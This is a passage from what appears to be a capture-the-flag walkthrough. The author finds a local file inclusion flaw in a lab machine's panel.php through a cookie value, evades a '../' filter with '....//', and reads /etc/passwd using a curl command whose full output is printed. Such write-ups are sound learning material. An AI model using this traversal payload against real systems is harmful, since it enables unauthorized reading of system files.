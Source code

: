 This in turn finally triggered that intruder alert message I had seen earlier. 

->![](/images/2014-07-15/12.png)<-

So the contents of super_secret_login_path_muhahaha/1 were being added into the panel.php. It took me a while to make the connection that the value 1 assigned to the intruder cookie was the actual file super_secret_login_path_muhahaha/1, and not some boolean value for "true". Once that clicked, I knew I had found a local file inclusion vulnerability. 

After a bit of trial and error, I realized that some filtering was taking place as the traditional ../../../../../etc/passwd wasn't working. As it turned out, ../ was being removed, so to evade this filter, I used ....// instead. Sure enough, I was able to read /etc/passwd using curl and passing it the file to read in the cookie: 

```
# curl -b "PHPSESSID=2bcc5t4g72043ronu46mtkmi32; intruder=....//....//....//....//....//....//etc/passwd" 172.16.229.151/super_secret_login_path_muhahaha/panel.php

<HTML>
.
.
.
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:104::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:104:108:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
george:x:1000:1000:george,,,:/home/george:/bin/bash
mysql:x:105:109:MySQL Server,,,:/nonexistent:/bin/false
jack:x:1001:1001::/home/jack:/bin/sh
milk_4_life:x:1002:1002::/home/milk_4_life:/bin/sh
developers:x:1003:1003::/home/developers:/bin/sh
bazza:x:1004:1004::/home/bazza:/bin/sh
oj:x:1005:1005::/home/oj:/bin/sh
</HTML>
```